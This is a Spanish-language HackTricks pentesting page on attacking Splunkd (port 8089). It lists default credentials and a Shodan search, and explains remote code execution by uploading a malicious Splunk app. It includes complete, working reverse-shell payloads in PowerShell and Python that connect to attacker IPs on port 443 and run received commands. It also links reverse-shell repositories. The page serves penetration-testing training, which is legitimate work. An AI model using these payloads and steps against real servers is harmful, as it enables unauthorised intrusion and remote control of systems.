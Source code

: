# 8089 - Pentesting Splunkd

{{#include ../banners/hacktricks-training.md}}

## **Información Básica**

- Herramienta de análisis de registros utilizada para la recopilación, análisis y visualización de datos
- Comúnmente utilizada en monitoreo de seguridad y análisis de negocios
- Puertos predeterminados:
- Servidor web: 8000
- Servicio Splunkd: 8089

### Vectores de Vulnerabilidad:

1. Explotación de la Versión Gratuita

- La versión de prueba se convierte automáticamente en versión gratuita después de 60 días
- La versión gratuita carece de autenticación
- Riesgo de seguridad potencial si se deja sin gestionar
- Los administradores pueden pasar por alto las implicaciones de seguridad

2. Debilidades de Credenciales

- Versiones más antiguas: Credenciales predeterminadas `admin:changeme`
- Versiones más nuevas: Credenciales establecidas durante la instalación
- Potencial para el uso de contraseñas débiles (por ejemplo, `admin`, `Welcome`, `Password123`)

3. Oportunidades de Ejecución Remota de Código

- Múltiples métodos de ejecución de código:
- Aplicaciones Django del lado del servidor
- Puntos finales REST
- Entradas scriptadas
- Scripts de alerta
- Soporte multiplataforma (Windows/Linux)
- Las entradas scriptadas pueden ejecutar:
- Scripts Bash
- Scripts de PowerShell
- Scripts por lotes

Potencial Clave de Explotación:

- Almacenamiento de datos sensibles
- Falta de autenticación en la versión gratuita
- Múltiples vectores para potencial ejecución remota de código
- Posibilidad de aprovechar entradas scriptadas para comprometer el sistema

### Shodan

- `Splunk build`

## RCE

### Crear Aplicación Personalizada

Splunk ofrece un método sofisticado para la ejecución remota de código a través del despliegue de aplicaciones personalizadas, aprovechando sus capacidades de scripting multiplataforma. La técnica de explotación central gira en torno a la creación de una aplicación maliciosa que puede ejecutar shells reversos en sistemas tanto Windows como Linux.

Una aplicación personalizada puede ejecutar **scripts de Python, Batch, Bash o PowerShell**. Además, **Splunk viene con Python instalado**, por lo que incluso en sistemas **Windows** podrás ejecutar código python.

Puedes usar [**este**](https://github.com/0xjpuff/reverse_shell_splunk) ejemplo con el **`bin`** que contiene un ejemplo para [Python](https://github.com/0xjpuff/reverse_shell_splunk/blob/master/reverse_shell_splunk/bin/rev.py) y [PowerShell](https://github.com/0xjpuff/reverse_shell_splunk/blob/master/reverse_shell_splunk/bin/run.ps1). O podrías crear el tuyo propio.

El proceso de explotación sigue una metodología consistente a través de plataformas:
```
splunk_shell/
├── bin        (reverse shell scripts)
└── default    (inputs.conf configuration)
```
El archivo de configuración crítico `inputs.conf` habilita el script mediante:

- Estableciendo `disabled = 0`
- Configurando un intervalo de ejecución de 10 segundos
- Definiendo el tipo de fuente del script

El despliegue es sencillo:

1. Crear el paquete de aplicación maliciosa
2. Configurar un listener (Netcat/socat) en la máquina atacante
3. Subir la aplicación a través de la interfaz de Splunk
4. Activar la ejecución automática del script al subir

Ejemplo de shell reversa de Windows PowerShell:
```powershell
$client = New-Object System.Net.Sockets.TCPClient('10.10.10.10',443);
$stream = $client.GetStream();
[byte[]]$bytes = 0..65535|%{0};
while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){
$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);
$sendback = (iex $data 2>&1 | Out-String );
$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';
$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);
$stream.Write($sendbyte,0,$sendbyte.Length);
$stream.Flush()
};
$client.Close()
```
Ejemplo de shell inverso de Python en Linux:
```python
import sys, socket, os, pty
ip = "10.10.14.15"
port = "443"
s = socket.socket()
s.connect((ip, int(port)))
[os.dup2(s.fileno(), fd) for fd in (0, 1, 2)]
pty.spawn('/bin/bash')
```
### RCE y Escalamiento de Privilegios

En la siguiente página puedes encontrar una explicación de cómo este servicio puede ser abusado para escalar privilegios y obtener persistencia:

{{#ref}}
../linux-hardening/privilege-escalation/splunk-lpe-and-persistence.md
{{#endref}}

## Referencias

- [https://academy.hackthebox.com/module/113/section/1213](https://academy.hackthebox.com/module/113/section/1213)

{{#include ../banners/hacktricks-training.md}}
